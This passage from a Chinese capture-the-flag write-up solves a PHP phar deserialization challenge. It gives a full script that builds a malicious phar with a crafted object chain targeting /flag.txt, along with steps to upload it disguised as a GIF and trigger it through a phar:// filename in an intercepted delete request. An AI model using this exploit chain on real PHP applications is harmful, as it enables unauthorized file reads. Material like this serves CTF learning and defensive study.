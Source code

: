     *   先创建一个phar文件文件上传，然后通过伪协议`phar://`读取它来触发反序列化。

```
<?php

	class User
	{
		public $db;
	}
	class FileList
	{
		private $files;
		public function __construct()
		{
			$this->files=array(new File());
		}
	}
	class File
	{
		public $filename='/flag.txt';
	}

	$b=new FileList();
	$c=new User();
	$c->db=$b;

    $phar = new Phar('test.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($c);
    $phar->stopBuffering();
 ?> 
```

*   PHP环境运行它，在同目录下生成一个`test.phar`文件，但是有一个注意点，要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。
*   然后再在删除它时抓包，修改`filename=phar://test.gif` 看响应报文
    ![在这里插入图片描述](img/5855bc0604d4143b19a82dd9c686f35e.png)
*   为什么是删除页面，因为里面有open文件读取函数可以来触发反序列化漏洞。
*   最后，复现是不难，但你要说每个细节那可就是直接死亡。
*   但是接触到了新的反序列化的漏洞点和一些思想方法。

### 4、[BJDCTF 2nd]xss之光
